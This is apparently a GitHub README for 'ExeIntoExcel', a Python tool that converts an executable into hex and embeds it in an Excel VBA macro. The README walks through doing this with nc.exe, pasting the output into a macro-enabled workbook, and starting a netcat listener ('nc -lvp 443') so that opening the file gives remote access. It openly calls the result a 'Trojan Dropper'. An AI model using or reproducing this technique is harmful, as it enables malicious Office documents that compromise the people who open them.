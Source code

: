 # ExeIntoExcel
Python script to transport an Exe file into Hex and then embed it into a Excel vba macro code.

I tested the code with netcat application (nc.exe):

python ExeIntoExcel.py -f nc.exe

Running this code produces two text files: hex.txt and hexready.txt.
Just copy and paste the content of hexready.txt into an Excel file.

Then you can start your listener:
nc -lvp 443

Now you can run your Excel file (macro enabled) and you are in.
Congratulations, you converted an Excel file into a Trojan Dropper. :)
